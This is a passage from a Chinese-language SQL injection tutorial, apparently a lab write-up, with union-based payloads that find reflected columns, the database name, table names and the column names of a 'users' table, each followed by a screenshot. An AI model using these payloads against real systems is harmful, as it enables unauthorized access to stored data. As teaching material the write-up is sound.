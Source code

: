 **(3)判断回显位置 **

```sql
1' union select 1,2#
```



<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230729103955203.png" alt="image-20230729103955203" style="zoom:33%;" />

 可以知道回显位置 在这二个地方

**(4)判断数据库**

```sql
1' union select 1,database()#
```



<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230729104326962.png" alt="image-20230729104326962" style="zoom:33%;" />

**(5)获取表名**

```sql
1' union select 1,group_concat(table_name) from  information_schema.tables where table_schema=database()#
```



![image-20230729104630309](imgs/3a6f624b2b599127903650ecc165d1c3_MD5.png)

**(6)获取字段名  **

```sql
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#
```


